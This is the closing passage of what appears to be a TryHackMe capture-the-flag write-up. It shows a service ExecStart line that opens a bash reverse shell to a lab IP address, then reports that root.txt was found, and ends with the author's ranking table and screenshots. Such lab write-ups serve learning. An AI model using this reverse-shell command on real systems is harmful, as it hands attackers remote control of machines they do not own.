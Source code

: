 ```bash

ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.194.200/1337 0>&1' 
```

![image](https://github.com/user-attachments/assets/59fc51d1-7268-43a3-875b-efbc87971329)

<br>

![image](https://github.com/user-attachments/assets/b41c3a0a-2030-439c-b5f5-1ce1d58a55d4)

<br>

<p align="center">Discovered <code>root.txt</code>.</p>

![image](https://github.com/user-attachments/assets/b5410957-4bf8-48e9-8cb5-2be41d44f353)

<br>


<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{Room Completed}}$$
</h1>




<p align="center"> <img width="900px" src="https://github.com/user-attachments/assets/ff3a3c39-8169-48a4-8086-37c27b9dc5ae"> </p>

<br>

<p align="center"> <img width="900px" src="https://github.com/user-attachments/assets/2c265a14-a0b3-4019-bd3a-2fe82f6d3f15e"> </p>


<br>
<br>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{My TryHackMe Journey}}$$
</h1>


<div align="center">

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     | Badges    |
| :---------------: | :------: | :----------: | :----------: | :---------: | :--------: | :------  | :-------: | :-------: |
|                   |          | WorldWide    | Brazil       | WorldWide   | Brazil     |          | Completed |           |
| March 22, 2025    | 320      |     349ᵗʰ    |        8ᵗʰ   |    772nd    |     8ᵗʰ    |  87,488  |       623 |   59      |

</div>

<p align="center"> Global All Time: 352ⁿᵈ<br><br><img width="900px" src="https://github.com/user-attachments/assets/1959739b-511b-4f19-9b39-750d613c94f3"> </p>

<p align="center"> Brazil All Time: 8ᵗʰ<br><br><img width="900px" src="https://github.com/user-attachments/assets/123eca1f-8ef2-49e4-967f-0235547af297"> </p>

<p align="center"> Global monthly: 772nd<br><br><img width="900px" src="https://github.com/user-attachments/assets/268ed383-6988-45f3-80f3-6692f22ad562"> </p>

<p align="center"> Brazil monthly: 8ᵗʰ<br><br><img width="900px" src="https://github.com/user-attachments/assets/2e385bd1-466c-4cbe-bf3e-ad7de4a5783f"> </p>




